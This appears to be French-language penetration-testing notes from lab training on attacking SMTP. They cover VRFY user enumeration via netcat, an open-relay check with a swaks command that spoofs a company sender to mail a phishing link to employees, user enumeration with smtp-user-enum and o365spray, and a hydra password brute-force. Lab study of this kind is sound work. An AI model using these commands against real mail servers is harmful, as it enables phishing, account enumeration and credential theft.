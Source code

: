 # Simple Mail Transfer Protocol
Service roulant sur le port TCP 25. Encrypté sur TCP 465
	
Peut recevoir des commandes:
* VRFY : vérifi si un utilisateur existe ex: “root”
* EXPN : liste Membres d'un liste d'envoi
 
## Envoi
 Client (MUA) 	➞ 	Submission Agent (MSA) 	➞ 	Open Relay (MTA) 	➞ 	Mail Delivery Agent (MDA) 	➞ 	Mailbox (POP3/IMAP)     
       
## Désavantages
Pas d'authentification. Envoyeur non-fiable

# ESTMP
Encrypté après **STARTTLS**. protégé par SSL. Peut s'authentifier avec AUTH.
       
# Outils
## Netcat / Telnet (windows)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
kali@kali:~$ nc -nv 192.168.50.8 25
(UNKNOWN) [192.168.50.8] 25 (smtp) open
220 mail ESMTP Postfix (Ubuntu)
VRFY root
252 2.0.0 root
VRFY idontexist
550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Open Relay
Permet de cacher la source et passer pour le relai

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#identifier
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
#usurper
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


## Force brute
Attention, ça peut être long à répondre. 15 secondes dans htb
Attention au nom de domaine, peut-être nécessaire

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#-D pour ajouter domaine. Dépend du serveur.
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#valider que c'est O365
python3 o365spray.py --validate --domain msplaintext.xyz
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
hydra -S -l fiona -P pws.list -V 10.129.203.7 smtp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
